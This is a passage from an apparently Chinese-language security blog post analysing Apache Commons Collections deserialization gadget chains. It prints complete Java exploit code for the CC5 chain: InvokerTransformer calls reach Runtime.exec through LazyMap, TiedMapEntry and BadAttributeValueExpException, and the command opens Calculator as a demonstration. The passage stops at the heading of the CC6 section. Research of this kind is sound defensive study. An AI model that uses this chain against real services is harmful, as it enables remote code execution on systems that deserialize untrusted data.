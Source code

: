
完整的调用链如下图所示

[![](https://p4.ssl.qhimg.com/t0131f14bdb6104db76.png)](https://p4.ssl.qhimg.com/t0131f14bdb6104db76.png)

### <a class="reference-link" name="0x3%20payload%E7%BC%96%E5%86%99"></a>0x3 payload编写

CC5 的利用编写相对来说比较简单，整个利用延续CC1模板，添加关于TiedMapEntry 类的相关操作。

```
final String[] execArgs = new String[] `{` "/System/Applications/Calculator.app/Contents/MacOS/Calculator" `}`;
final Transformer transformerChain = new ChainedTransformer(
        new Transformer[]`{` new ConstantTransformer(1) `}`);
final Transformer[] transformers = new Transformer[] `{`
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[] `{`
                String.class, Class[].class `}`, new Object[] `{`
                "getRuntime", new Class[0] `}`),
        new InvokerTransformer("invoke", new Class[] `{`
                Object.class, Object[].class `}`, new Object[] `{`
                null, new Object[0] `}`),
        new InvokerTransformer("exec",
                new Class[] `{` String.class `}`, execArgs),
        new ConstantTransformer(1) `}`;

final Map innerMap = new HashMap();

final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");

BadAttributeValueExpException val = new BadAttributeValueExpException(null);
Field valfield = val.getClass().getDeclaredField("val");
Reflections.setAccessible(valfield);
valfield.set(val, entry);

Field valfield2 = transformerChain.getClass().getDeclaredField("iTransformers");
valfield2.setAccessible(true);
valfield2.set(transformerChain, transformers);

byte[] serializeData=serialize(val);
unserialize(serializeData);
```



## 0x03 CommonsCollections6 分析

### <a class="reference-link" name="0x1%20CC6%20%E9%93%BE%E7%9A%84%E7%94%B1%E6%9D%A5"></a>0x1 CC6 链的由来
